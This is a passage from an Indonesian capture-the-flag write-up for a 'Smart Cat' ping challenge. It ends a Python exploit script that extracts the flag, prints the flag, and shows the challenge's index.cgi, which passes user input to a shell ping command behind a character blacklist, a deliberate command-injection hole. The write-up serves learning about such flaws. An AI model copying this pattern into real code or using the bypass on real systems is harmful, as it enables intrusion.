 ```python
            filtered = re.findall(r'INS{(.*)}', read_url)
            print filtered
        else: print read_url

def main():
    exploit = Exploit()
    deploy = exploit.find_flag_stage3()
    run = RunExploit().execute(deploy)

if __name__ == '__main__':
    main()
```

Voila! dan ditemukan flagnya.

Flag: <b>INS{warm_kitty_smelly_kitty_flush_flush_flush}</b>

Oh, mengenai index.cgi untuk melihat filter apa saja yang difilter oleh proses didalam index.cgi, berikut source codenya.

```python
#!/usr/bin/env python

import cgi, subprocess, os

headers = ["mod_cassette_is_back/0.1","format-me-i-im-famous","dirbuster.will.not.help.you","solve_me_already"]

print "X-Powered-By: %s" % headers[os.getpid()%4] 
print "Content-type: text/html"
print

print """
<html>

<head><title>Can I haz Smart Cat ???</title></head>

<body>

  <h3> Smart Cat debugging interface </h3>
"""

blacklist = " $;&|({`\t"
results = ""
form = cgi.FieldStorage()
dest = form.getvalue("dest", "127.0.0.1")
for badchar in blacklist:
    if badchar in dest:
        results = "Bad character %s in dest" % badchar
        break

if "%n" in dest:
    results = "Segmentation fault"

if not results:
    try:
        results = subprocess.check_output("ping -c 1 "+dest, shell=True)
    except:
        results = "Error running " + "ping -c 1 "+dest


print """

  <form method="post" action="index.cgi">
    <p>Ping destination: <input type="text" name="dest"/></p>
```